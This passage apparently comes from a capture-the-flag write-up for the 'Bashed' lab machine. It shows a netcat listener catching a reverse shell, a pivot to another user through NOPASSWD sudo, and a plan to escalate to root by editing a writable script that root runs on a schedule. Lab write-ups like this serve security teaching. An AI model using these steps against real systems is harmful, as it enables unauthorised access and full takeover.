 As a result we catch the bash shell. 
```bash
nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.83] from (UNKNOWN) [10.129.74.120] 44840
www-data@bashed:/var/www/html/dev$ whoami
whoami
www-data
www-data@bashed:/var/www/html/dev$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bashed:/var/www/html/dev$ 
```
Navigating around the box we find two users in the /home directory; arrexel and scriptmanager. As it happens the user www-data has read access in the users arrexel's home direcotry. This is where we find the user flag.
```
www-data@bashed:/home/arrexel$ ls -la user.txt
ls -la user.txt
-r--r--r-- 1 arrexel arrexel 33 Oct 27 06:20 user.txt
```

# Privliege Escalation
While multiple tools exist to automate the enumeration for linux privilege escalation. Its generally a good idea to look for some quick wins. 99% of the time, I like to start with checking if the current user can run any commands as root, specifically it would be helpful if any commands can be run with NOPASSWD. We can check this with `sudo -l`
The results below show we cant run any commands as root, but we can run any command as scriptmanager. This gives us a little more access, we can pivot to this user and continue enumerating. 
```bash
www-data@bashed:/home/arrexel$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```
 The ability to run any command as another user, also means we can  start a shell as that user. This has the added advantage of maintaining the permission for any additional commands. 
```bash
www-data@bashed:/home/arrexel$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/home/arrexel$ whoami
whoami
scriptmanager
scriptmanager@bashed:/home/arrexel$ 
```
Enumerating as the scriptmanager user, we identify an odd directory in the `/` directory. The scripts directory is not normal which is a slight hint that we should look at it. Had we performed other enumeration as the www-data user we would have seen this directory but not been able to access it. Listing the contents of this directory with `ls -la` we see two files, `test.py` and `test.txt`. It is important to notice that is happening here, `test.py` is a python script that is owned by our current user `scriptmanager`. However, the test.txt file is owned by `root`. Another observation is the `test.txt` file is last modified a minute ago. If we `cat` this file we see the output `testing 123!`. Looking at the test.py file we can see the python script runs and creates the file `test.txt`. Since we know the `test.txt` file is owned by root we can conclude that root is executing the `test.py` script every minute. Since `scriptmanager` owns this file we can modify it and run commands as `root`.
```bash
scriptmanager@bashed:/scripts$ ls -la
ls -la
total 16
```